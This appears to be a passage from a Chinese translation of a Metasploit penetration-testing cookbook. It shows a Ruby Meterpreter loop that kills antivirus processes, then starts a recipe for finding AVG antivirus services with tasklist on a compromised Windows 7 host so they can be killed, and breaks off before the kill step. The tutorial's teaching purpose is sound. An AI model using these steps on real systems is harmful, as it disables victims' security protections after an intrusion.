 ```
client.sys.process.get_processes().each do |x|
if (avs.index(x['name'].downcase))
print_status("Killing off #{x['name']}...")
client.sys.process.kill(x['pid'])
end
end 
```

代码的最后几行是不言自明的。脚本在目标系统上查找正在运行的进程与其数组进行匹配。当找到匹配时，它使用`process.kill`函数来终止进程。这个循环会一直持续，直到数组的所有元素与可用进程匹配。

# 从命令行杀死杀毒软件服务

在上一篇文章中，我们给出了杀毒软件进程在使用`killav.rb`脚本后仍然运行的两个原因。在上一篇文章中，我们解决了第一个问题，即`killav.rb`列表不包括要被杀死的进程。在本篇文章中，我们将解决第二个问题，即杀毒软件程序在目标机器上作为服务运行。在我们继续之前，让我们先了解一下进程和服务之间的区别。

进程是计算机上正在运行的任何软件。一些进程在计算机启动时启动，其他的在需要时手动启动。一些进程是服务，它们发布方法以便其他程序可以根据需要调用它们。进程是基于用户的，而服务是基于系统的。

杀毒软件也可以作为服务运行一些组件，比如电子邮件过滤器、网络访问过滤器等。`killav.rb`脚本无法杀死服务。所以，即使我们使用`killav.rb`杀死了进程，杀毒软件服务也会立即重新启动它们。所以即使`killav.rb`杀死了所有杀毒软件进程，但每次使用`ps`命令时它们仍然被列出，那么可以得出结论，杀毒软件的某个组件作为服务在负责重复启动进程。

## 准备好了

我们将从一个场景开始，目标机器是运行 AVG 10 杀毒软件的 Windows 7 机器。我假设我们已经与目标机器建立了一个具有管理员权限的活动 meterpreter 会话。

## 如何做...

1.  这个配方将使用 Windows 命令提示符。所以我们将从打开一个带有目标的命令提示符 shell 开始。

```
    meterpreter > shell
    Process 3324 created.
    Channel 1 created.
    C:\WINDOWS\system32> 
    ```

1.  现在，我们将使用`tasklist`命令来查找各种可用任务。添加`/SVC`参数将只列出作为服务运行的进程。由于我们知道目标机器正在使用 AVG 杀毒软件，我们可以添加通配符搜索，只列出属于 avg 的服务。因此，我们的命令行将如下所示：

```
    C:\WINDOWS\system32>tasklist /SVC | find /I "avg"
    tasklist /SVC | find /I "avg"
    avgchsvx.exe 260 N/A
    avgrsx.exe 264 N/A
    avgcsrvx.exe 616 N/A
    AVGIDSAgent.exe 1664 AVGIDSAgent
    avgwdsvc.exe 116 avg9wd
    avgemc.exe 1728 avg9emc 
    ```

所以我们有一个完整的列表或服务和进程为 AVG 杀毒软件。下一步将是发出`taskkill`命令来终止这些任务并禁用杀毒软件保护。

1.  我们可以再次使用通配符搜索来杀死所有进程名称为`avg`的任务。
